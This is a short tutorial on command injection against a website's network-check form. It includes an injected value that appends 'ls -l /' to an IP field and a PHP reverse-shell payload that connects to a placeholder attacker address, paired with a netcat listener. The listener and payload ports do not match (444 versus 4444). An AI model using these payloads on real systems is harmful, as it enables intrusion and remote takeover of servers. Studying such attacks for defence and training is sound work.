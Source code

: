 ## **Overview**

Command injection is **an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application**.


## **General Exploitation**

- Given a website with a **network check**

![](https://i.imgur.com/KDBjndk.png)

- Anytime we input an **IP Address** or a domain name we can see it checks it up and even tells us the `curl` request been made

![](https://i.imgur.com/FmN5Hy0.png)

- We could use special operators like `| && || ;` to perform command execution after the given **IP/domain name**, right here i will be using this query

```
127.0.0.1 ; ls -l / #
```


> **Note :** the `#` symbol at the end of this query comments out the `| grep "HTTP/"` thereby not making it to execute


![For better view, view page-source](https://i.imgur.com/vRTb9hc.png)


#### **Bonus**

We can also attempt to get a reverse shell

- On your terminal do 

```bash
$ nc -lvnp 444
```

- Navigate to the website and use payload :

```PHP
; php -r '$sock=fsockopen("IP_ADDRESS",4444);exec("/bin/bash <&3 >&3 2>&3");' #
```




![](https://i.imgur.com/tWfu273.png)

